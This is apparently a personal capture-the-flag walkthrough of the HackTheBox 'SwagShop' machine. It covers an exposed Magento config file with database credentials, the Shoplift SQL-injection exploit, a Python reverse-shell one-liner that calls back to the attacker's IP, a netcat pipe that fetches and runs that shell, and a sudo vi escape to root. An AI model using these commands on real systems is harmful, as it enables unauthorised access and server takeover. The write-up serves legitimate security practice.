







We only have port 22 and 80 open.
Website is running magento which has a lot of know exploits
I found this config file here
http://swagshop.htb/app/etc/local.xml
<config><global><install><date>Wed, 08 May 2019 07:23:09 +0000</date></install><crypt><key>b355a9e0cd018d3f7f03607141518419</key></crypt><disable_local_modules>false</disable_local_modules><resources><db><table_prefix></table_prefix></db><default_setup><connection><host>localhost</host><username>root</username><password>fMVWh7bDHpgZkyfqQXreTjU9</password><dbname>swagshop</dbname><initStatements>SET NAMES utf8</initStatements><model>mysql4</model><type>pdo_mysql</type><pdoType></pdoType><active>1</active></connection></default_setup></resources><session_save>files</session_save></global>
I tried using the magento shoplift script but it didnt work. Looked up a guide and we need to use it. Had chatgpt convert it to python3 so I could run it.
https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py
Shoplift creates an admin user and we can login with it.
http://swagshop.htb/index.php/admin/


The intended way of getting a shell is using this exploit but no matter what I did to fix it nothing would work.
https://www.exploit-db.com/exploits/37811
I found an exploit someone made and I was able to get a shell following his steps.
https://ivanitlearning.wordpress.com/2020/09/15/hackthebox-swagshop/
https://github.com/epi052/htb-scripts-for-retired-boxes/blob/master/swagshop/magento-oneshot.py
Create a rev shell
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
import pty;
pty.spawn("/bin/bash")
Start our listener
nc -lnvp 4444 < shell.py
Execute the RCE script
python3 rce.py --command "nc 10.10.14.32 4444 | python3" --user ypwq --password 123 --history-length 2y http://10.10.10.140/index.php
Now I got a connection but I didnt get a shell until I killed netcat


Priv esc to root

Root was very simple
execute
sudo /usr/bin/vi /var/www/html/*
hit escape and then type :sh and it will drop us into a root shell inside of vim

